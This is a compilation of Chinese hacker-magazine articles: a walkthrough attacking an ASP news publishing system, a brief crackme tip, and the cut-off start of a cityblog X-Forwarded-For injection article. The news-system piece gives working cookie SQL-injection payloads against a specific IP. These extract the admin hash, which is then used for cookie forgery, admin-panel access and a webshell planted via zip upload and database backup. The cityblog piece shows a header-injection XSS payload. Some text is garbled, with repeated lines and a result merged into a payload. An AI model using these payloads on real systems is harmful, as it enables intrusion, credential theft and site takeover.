## 三顾讯时 ——对讯时新闻发布系统的艰难突破

月无痕[L.S.T] && 花非花[L.S.T]

- 从本文你可以学到:
1、讯时新闻发布系统漏洞分析
2、漏洞的综合利用

## 一. 接触起因

这几天事情较多，一直都没去小组的论坛转！今天小组的 joli 突然 Q 我说论坛上有人发了个脚本的问题，叫我也一起看一下，于是我就跑过去看了下（你家离论坛很近？竟然可以跑着过去！），也就有了下面这篇文章（测试版本为讯时新闻发布系统 v2.70 版）。

## 二. 漏洞初探

打算先看有没有经典的 OR 漏洞，虽然是已经出来很久的漏洞洞了，但是很多程序仍然会存在这样的漏洞，admin_login.asp 存在如下代码：

```asp
if request("user")="" or request("pass")="" then
  conn.close
  set conn=nothing
  Response.Redirect "login.asp?id=0"
' 如果 user 或者 pass 等于空就掉转到 login.asp?id=0 这个页面上
else ' 如果上面条件不成立就执行下面语句

user=LCase(chkhtm(request("user"))) ' 这里先用 chkhtm 函数过滤，然后用 lcase 再过滤
pass=md5(chkhtm(trim(request("pass"))))
' 然后带入 sql 语句查询
sql = "select * from admin where [user]='"&user&"' and [pass]='"&pass&"'"
Set rs = Server.CreateObject("ADODB.RecordSet")
rs.Open sql,conn,1,1
```

好！上面关键的地方我都进行了一下注释，最关键的地方就是 chkhtm 函数，它是做什么的？我在 titleb.asp 中找到了它的定义！

```asp
function chkhtm(stra)
  stra=replace(stra,"<","&lt;")
  stra=replace(stra,">","&gt;")
  stra=replace(stra,"'","''")
  stra=replace(stra,"(","( ")
  stra=replace(stra,")",") ")
  stra=replace(stra,";","; ")
  stra=replace(stra,",",", ")
  stra=replace(stra,"%","%%")
  stra=replace(stra,"+"," + ")
  chkhtm=stra
end function
```

很明显的一个过滤函数，在函数的第四行，已经过滤掉了“'”号了，所以 OR 漏洞是没戏了，思路到这里就断了。

## 三. 再探漏洞

在查看代码的时候曾经被某人误导，一直抓不到点子上去，这时候花非花刚好来上网，我把程序传给他，他把思路告诉我，然后让我看看了 admin_chk.asp 文件，大概代码如下：

```asp
<%
1.session("admin__user")=Request.Cookies("adminuser")
2.session("admin__pass")=Request.Cookies("adminpass")
3.session("dJ")=Request.Cookies("admindj")

4.adminuser=Request.Cookies("adminuser")
5.adminpass=Request.Cookies("adminpass")
6.admindj=Request.Cookies("admindj")

7.if adminuser="" or adminpass="" then
8. Response.Redirect "login.asp?id=8"
9.end if

...省略部分代码...

10.user=trim(session("admin__user"))
11.pass=session("admin__pass")

12.sql = "select * from admin where [user]='"&adminuser&"' and [pass]='"&adminpass&"'"
13.Set rs = Server.CreateObject("ADODB.RecordSet")
14.rs.Open sql,conn,1,1
15.if rs.recordcount=0 then
16. Response.Redirect "login.asp?id=8"
17.end if
...再省略...
%>
```

1,2,3 是通过 request.cookies 方法从客户端获取 cookie 信息（KEY 分别是 adminuser, adminpass, admindj），并存入 session 中，分别对应：session("admin__user"), session("admin__pass"), session("dj")；然后在 4,5,6 分别把 Request.Cookies("adminuser"), Request.Cookies("adminpass"), Request.Cookies("admindj") 的值存入变量 adminuser, adminpass, admindj 中，如果变量 adminuser, adminpass 的值为空，就转到 login.asp?id=8 页面；10,11 是将 session("admin__user") 和 session("admin__pass")，存入变量 user 和 pass 中；12,13,14 将变量 adminuser 和 adminpass 的值参与 sql 查询。将拿客户端的 cookie 信息进行 sql 查询，这样做的结果是造成欺骗漏洞，但是由于参与查询的 cookie 还包括密码，所以这种利用条件比较困难，必须要得到用户的密码（估计有人要骂我了，能得到密码还 COOKIE 欺骗干嘛），不过这个密码是 MD5 加密的，也就是可以省去破解这一步了。另外一个就是 cookie 注入了，貌似可以，但是我们进行测试之后都构造不出可行的攻击语句，有高手能搞定的话，请告知一下，先谢过了！思路再一次中断……

## 四. 三顾识时

正在一筹莫展的时候，花花找到了另外一个漏洞，漏洞文件在 admin_news_view.asp，漏洞代码如下：

```asp
newsid=trim(request("newsid"))
sql = "select * from news where id="&newsid
Set rs = Server.CreateObject("ADODB.RecordSet")
rs.Open sql,conn,1,1
```

这个文件以 admin 开头，但是没有进行权限的判断等，用户可直接查看，而这里通过 request 获取从客户端传来的数据 newsid 的值，并用 trim 函数过滤之后存入变量 newsid 中，然后将此变量参与 SQL 查询，此过程，只用 trim 函数过滤了空格并没有做其他的限制，所以从这里可以看出一个注入漏洞就产生了。

用 order by 函数判断参与 SQL 查询的字段为 26 个，提交 http://222.90.4.20/news/admin_news_view.asp?newsid=26%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26%20from%20admin，返回错误，如图 1 所示。



图 1 返回错误

然后，我们在 admin_conn.asp 文件中发现如下代码：

```asp
sss=LCase(request.servervariables("QUERY_STRING"))
if instr(sss,"select")<>0 or instr(sss,"inster")<>0 or instr(sss,"delete")<>0 or instr(sss,"(")<>0 or instr(sss,"'or")<>0 then
  response.write "<BR><BR><center>你的网址不合法"
  response.end
end if
```

过滤了 request.querystring 方法获取从客户端传来的数据，过滤的内容是 select, inster, delete 等，虽然做了这个限制，但是我们还是可以利用 cookie 进行注入，因为前面的漏洞代码里面用的是 request 而不是 request.querystring，所以我们还有 request.cookie 方法让服务端获取我们这里的数据。

先访问：http://222.90.4.20/news/admin_news_view.asp?newsid=26，然后去掉此 URL，再提交：javascript:alert(document.cookie="newsid="+escape("26 and 1=1"))，返回如图 2 所示。



图 2 cookie 注入

接着再访问 http://222.90.4.20/news/admin_news_view.asp，返回如图 3。



图 3 返回结果

说明我们提交的 URL 已经参与了 SQL 查询，而且查询所得结果为 javascript:alert(document.cookie="newsid="+escape("26 and (select asc(mid(user,1,1)) from [admin] where id=1)=97"))，返回如图 4 所示。



图 4 构造语句



图 5 进入后台

判断 id=1 的 user（管理员）的第一个字符的 ASCII 码值是否为 97，相信大家以前看过花花的文章，大概的 cookie 注入也就这样了，下面是猜密码的代码，javascript:alert(document.cookie="newsid="+escape("26 and (select asc(mid(pass,1,1)) from [admin] where id=1)=97"))，通过一一猜解所得用户名和密码的 ASCII 分别是 97 100 109 105 110，50 49 50 51 50 102 50 57 55 97 53 55 97 53 97 55 52 51 56 57 52 97 48 101 52 97 56 48 49 102 99 51，转换后的结果分别是 admin 和 21232f297a57a5a743894a0e4a801fc3。然后我们不必去破解密码，



图 6 网友投稿



图 7 上传 zip 马



图 8 查看代码

拿出老兵叔的 cookie 欺骗工具，在 cookies 栏里输入：admindj=1; adminpass=21232f297a57a5a743894a0e4a801fc3; adminuser=admin;（保持绿色小球处于按下状态）然后在 address 栏里输入：http://222.90.4.20/news/admin_index.asp，提交！这样我们就可以不经登录直接进到后台了，如图 5 所示。

进到后台后接着就是拿 WEBSHELL 了，打开网友投稿，如图 6 所示。

打开查看审查，然后传个 .zip（需要是允许上传的类型） 的马上去，如图 7 所示。

然后，查看编辑器的代码，如图 8 所示。

可以看到这样一行字：`<a href="/news/edit/uploadfile/2007213131454997.zip", 记下这一路径：/news/edit/uploadfile/2007213131454997.zip，再打开备份，如图 9 所示。`

把路径等设置好，如图 10 所示。

然后提交，返回如图 11 所示。

这里我们获得了物理路径，然后就可以提交 URL：http://222.90.4.20/news/databackup/LST.ASP，返回如图 12 所示。

回如图 12 所示。



呵呵，熟悉的界面，明哥的 DIY.Asp，此文经过一波三折，最终成功拿下 WEBSHELL，没什么高深的技术，也就是一条思路，感谢我的好友 JOLI 和花非花。
（文中用到的工具 DIY.Asp 和 MyBrowse 均收在光盘中）

> 编辑点评：作者对讯时新闻发布系统的突破确实费了番周折，一个个的思路冒出来，再一个个的断掉，能在最后找到其致命的弱点，并根据前面分析的其他缺陷加以综合利用，需要相当的技巧；后台上传 .zip 的包，再备份得到 webshell 驾轻就熟，大家应该都掌握了。

# 关于看雪软件安全第一期中的 crack me

kflnig

以前的《黑客手册》光盘中有过《软件安全第一期》。
大家看这里：

“这更有意思，Name 框竟然不让小生我输入（抓急 ing），不管三七二十一，拿个 Reshacker 把 Name 框的属性给改了，HoHoHo，小生干起这事，颇有屠夫的架势。改好后，再分析。”

我在看到这里的时候很迷惑，因为我不知道怎么用 Reshacker 改属性，改哪个属性。经过一番分析，得出了一点结果。我用 Restorator，和 Reshacker 差不多，如图 1。



我们只要把这里的 enable=false 改成 enable=true 就可以了。


如果要修改的话，先点击查看器，然后选择编辑模式。改好后再选择查看器，再点击提交更改。最后保存就可以了，现在 Name 框里就允许输入了。如图 2，现在鼠标指针已经可以放到 name 输入框里去了。

> 编辑点评：本文是对软件安全第一期中的 crack me 的一个补充，不知道你在做这个 crack me 的时候有没有遇到同样的疑惑呢？

# 当 cityblog 遇到 X-Forwarded-For

寂寞的刺猬[L.S.T]

- 从本文你可以学到：
1、cityblog 跨站漏洞
2、cityblog 注射漏洞

注：cityblog（都市自媒体）是 cixiblog（慈溪博客）的升级版本。cityblog（都市自媒体）是一款支持多用户的博客系统，而 X-Forwarded-For 则是代理 IP 的意思。自从 X-Forwarded-For 被牛人挖掘出利用的方法后，这方面的漏洞就开始层出不穷了！这不，当 cityblog 遇到了 X-Forwarded-For，火花也就擦出来了，结果太刺激了，一下子烧了个大洞。

# 一、代码回放

在“UserManager\UserManagerClass.asp”文件中，有这么一段：

```asp
Dim IP
IP = Request.ServerVariables("HTTP_X_FORWARDED_FOR")
If IP="" Then
IP=Request.ServerVariables("REMOTE_ADDR")
End If
```

# 二、MDB 版跨用户跨站漏洞

何谓跨站，简单地讲就是把木马挂在客户端浏览的网页中，何谓木马，这个就不用说了吧！经过测试后发现，cityblog 不仅可以将木马挂在自己的博客内，还可以挂到任意用户的博客中，怕怕，以后再看别人的博客时，要小心一些喽！

如何将跨站语句加入呢？大家看一下 UPDATE 语句中的 IP='"& IP &"'，只要提交的 HTTP_X_FORWARDED_FOR 值是：127.0.0.1',某个可显示的字段='显示名<script>alert("弹出的字符")</script>，就可以了。看到这个语句，是不是想起了 L_BLOG 的提权漏洞，只可惜 cityblog 的 HTTP_X_FORWARDED_FOR 出现在 Article 表中，再者 cityblog 的管理员权限和 L_BLOG 的设置也不一样。

跨站的方法找到了，下面就来寻找“某个可显示的字段”，先将上面 UPDATE 语句中所用到的字段与数据库中的字段进行对比，看有哪些字符型字段没有用到 UPDATE 中。经过一番对比，发现有以下字符型字段没有用到上面的 UPDATE 语句中：

- 1、日志修改语句中没用到的字段有：User_Name、Article_ByMonth、Blog_Quote、Photo。经过测试只有 User_name 和 Blog_Quote 可用，但插入 Blog_Quote 中的 HTML 元素在显示时会被转换为字符串，所以在日志修改语句中，“某个可显示的字段”只有 User_Name 一个。

- 2、相册修改语句中没有用到的字段有：User_Name、Whather、Article_ByMonth、Article_Bl、Article_Form、Blog_Quote，经过测试，除了 Article_ByMonth 和 Blog_Quote 不可用外，其余的都可以做“某个可显示的字段”。

找到了可利用的字段，下面就可以跨站了。先注册两个用户，一个是“jmdcw”，另一个是“5200”。先用 jmdcw 登录，在登录时选择“下次不必登入!”项，在前面分析可用字段时已经提过，相册中可利用的字段要多于日志，所以测试以相册日志为主。进入“发布相册”页面，按要求发一个相册日志，待成功后，点击“相册管理”进入管理页面，如图 1：



找到刚才发布的相片，点击“动作”中的“编辑”，打开“修改相册”页面，在提交之前启动 WinSOCK，选择当前页监听，如图 2。

